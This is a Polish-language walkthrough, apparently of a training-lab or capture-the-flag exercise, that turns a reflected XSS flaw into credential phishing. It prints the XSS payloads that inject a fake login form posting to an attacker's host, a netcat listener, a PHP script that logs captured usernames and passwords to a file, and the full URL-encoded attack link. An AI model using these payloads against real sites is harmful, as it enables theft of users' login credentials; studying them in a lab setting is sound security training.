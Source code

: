 
Autor: `adi7312`

## **Odkrycie podatności XSS**

W pierwszej kolejności musimy zidentyfikować podatność, poniższy payload wystarczył do stwierdzenia że XSS faktycznie występuje.

```html
'><script>alert(1)</script>
```


![](p/7.png)


## **Forms injection**

Teraz zajmiemy się wstrzyknięciem fałszych formularzy logowania. Poniżej znajduje się przykładowy formularz:

```html
<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
W celu zapisania tego formularza na stronie należy użyć `document.write()`. Ostatecznie payload powinien wyglądać następująco:

```html
'><script>document.write('<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>')</script>
```

![](p/8.png)

Pomyślnie wstrzykneliśmy fałszywe formularze.

## **Czyszczenie strony**
   
Póki co ofiara pewnie nie nabrałaby się na taką stronę jaką mamy teraz. Musimy pozbyć się Image URL i nawiasu znacznika. W celu pozbycia się Image URL należy skorzystać z `document.getElementById().remove()`, żeby dowiedzieć się jakie id ma ten element należy skorzystać z Developer Tools. Jak widzimy id to `urlform`


![](p/9.png)


Żeby pozbyć się znacznika na końcu payloadu musimy dać otwierający komentarz `<!--`.


Ostatecznie nasz payload powinien wyglądać tak:
```html
'><script>document.write('<h3>Please login to continue</h3>
<form action=http://IP_ATAKUJACEGO:PORT>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>'); document.getElementById('urlform').remove()</script><!--

```

## **Kradzież danych**

Ustawiamy netcata żeby nasłuchiwał na porcie 1234:
```
sudo nc -nlvp 1234
```

Teraz możemy przetestować działanie naszej fałszywej strony wpisując w formluarzu jakieś dane testowe, np. test:test. Wówczas w netcat zauważymy output:

![](p/10.png)

W parametrze GET dokładnie widać wpisane wartości. Jednak netcat nie do końca poprawnie obsługuje żądania HTTP, ofiara może dostać błąd `Unable to connect`, co może być podejrzane, możemy więc napisać prosty skrypt w PHP który spowoduje później przekierowanie ofiary na dobrą stronę. W tym celu należy wykonać następujące polecenia:

```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php
```
W pliku index.php wpisujemy następująca zawartość przy czym pamiętamy o wpisaniu poprawnego IP.

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Następnie uruchamiamy serwer php.
```
sudo php -S 0.0.0.0:PORT
```

Wchodzimy teraz na stronę /phishing/send.php i wrzucamy tam nasz cały payload.
```
http://SITE_IP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E+%3Cform+action%3Dhttp%3A%2F%2FATTACK_IP%3APORT%3E+++++%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E+++++%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E+++++%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E+%3C%2Fform%3E%27)%3B+document.getElementById(%27urlform%27).remove()%3C%2Fscript%3E%3C!--
```

Po wysłaniu payloada, w folderze /tmp/tmpserver powinien utworzyć sie plik z danymi. 


![](p/11.png)


W celu otrzymania flagi pozostało nam jedynie zalogować się na /phishing/login.php


![](p/12.png)
